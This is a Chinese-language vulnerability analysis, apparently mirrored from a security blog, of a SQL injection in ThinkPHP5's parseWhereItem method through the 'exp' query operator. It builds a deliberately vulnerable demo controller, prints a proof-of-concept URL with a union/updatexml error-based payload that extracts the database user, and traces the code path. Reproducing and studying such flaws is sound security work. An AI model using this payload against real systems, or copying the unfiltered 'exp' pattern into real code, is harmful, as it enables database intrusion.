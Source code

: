 # Thinkphp5 全版本

> 原文：[http://book.iwonder.run/0day/Thinkphp/ThinkPHP5/ThinkPHP5 漏洞分析之 SQL 注入 3.html](http://book.iwonder.run/0day/Thinkphp/ThinkPHP5/ThinkPHP5 漏洞分析之 SQL 注入 3.html)

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL 注入** 漏洞（ **select** 方法注入）。次漏洞存在于 **Mysql** 类的 **parseWhereItem** 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL 注入漏洞** 的产生。

## 二、漏洞影响

ThinkPHP5 全版本

## 三、复现过程

### 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.10"
}, 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username');
        $result = db('users')->where('username','exp',$username)->select();
        return 'select success';
    }
} 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz'); 
```

### poc

```
http://0-sec.org:8000/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)# 
```

访问链接，即可触发 **SQL 注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1](img/c24fc3e0e14e80754321243ab7541e9c.png)

### 漏洞分析

由于官方根本不认为这是一个漏洞，而认为这是他们提供的一个功能，所以官方并没有对这个问题进行修复。但笔者认为这里的数据过滤还是存在问题的，所以我们还是来分析分析这个漏洞。

程序默认调用 **Request** 类的 **get** 方法中会调用该类的 **input** 方法，但是该方法默认情况下并没有对数据进行很好的过滤，所以用户输入的数据会原样进入框架的 **SQL** 查询方法中。首先程序先调用 **Query** 类的 **where** 方法，通过其 **parseWhereExp** 方法分析查询表达式，然后再返回并继续调用 **select** 方法准备开始构建 **select** 语句。

![2](img/c24fc3e0e14e80754321243ab7541e9c.png)

上面的 **$this->builder** 为 **\think\db\builder\Mysql** 类，该类继承于 **Builder** 类，所以接着会调用 **Builder** 类的 **select** 方法。在 **select** 方法中，程序会对 **SQL** 语句模板用变量填充，其中用来填充 **%WHERE%** 的变量中存在用户输入的数据。我们跟进这个 **where** 分析函数，会发现其会调用生成查询条件 **SQL** 语句的 **buildWhere** 函数。

![3](img/c24fc3e0e14e80754321243ab7541e9c.png)

继续跟进 **buildWhere** 函数，发现用户可控数据又被传入了 **parseWhereItem** where 子单元分析函数。我们发现当操作符等于 **EXP** 时，将来自用户的数据直接拼接进了 **SQL** 语句，最终导致了 **SQL 注入漏洞** 。

![4](img/c24fc3e0e14e80754321243ab7541e9c.png)

### 漏洞修复

未修复。

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![5](img/c24fc3e0e14e80754321243ab7541e9c.png)

## 参考链接

> [https://github.com/Mochazz/ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln)

